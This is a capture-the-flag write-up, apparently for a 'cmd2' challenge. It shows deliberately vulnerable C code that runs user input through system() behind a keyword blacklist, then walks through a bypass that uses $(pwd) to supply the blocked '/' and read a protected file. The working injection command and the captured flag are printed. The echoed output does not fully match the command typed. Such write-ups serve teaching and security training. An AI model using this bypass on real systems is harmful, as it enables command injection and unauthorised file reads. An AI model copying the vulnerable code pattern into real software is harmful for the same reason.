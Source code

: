 ### vul.c
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}
```
In this challenge, we have an updated blacklist of words and symbols. Setting the `PATH` variable is not an option anymore, because the `=` character is blacklisted. The most problematic blacklisted character is the forward slash `/`, because we need that character to execute programs ('./program'), if they are not defined in the `PATH` variable. This also includes the execution of self-written scripts, where you can execute whatever you want without words being blacklisted. Therefore it is important to somehow insert the `/` symbol in our command.

There are only a few commands available when the `PATH` is empty and when you cannot use the forward-slash. One of those commands is `pwd`. `pwd` return the absolute path of the current directory. The idea is to `cd` to the root folder, and execute `pwd`, which returns `/`. That is also exactly the character that we need in our command! `$(pwd)` will insert the result of executing the `pwd` command in place.

To solve this challenge, we navigate to the root directory and execute our self-constructed command with `/` replaced with `$(pwd)`. Because we want that the shell executes `$(pwd)` on the moment that the working directory is set to the root directory, we need to escape the `$` symbol to prevent that `$(pwd)` will be executed before entering `./cmd2`.

```
$ ./vul "cd ..; cd ..; cd ..; cd ..; cd ..; cd ..; cd ..; \$(pwd)bin\$(pwd)cat \$(pwd)home\$(pwd)feather\$(pwd)student\$(pwd)licenta\$(pwd)syscall_hooking\$(pwd)ctf_dataset\$(pwd)5\$(pwd)*"
cd ..; cd ..; $(pwd)bin$(pwd)cat $(pwd)home$(pwd)cmd2$(pwd)*
[truncated]
PWNABLE_FLAG{FuN_w1th_5h3ll_v4riabl3s_haha}
```
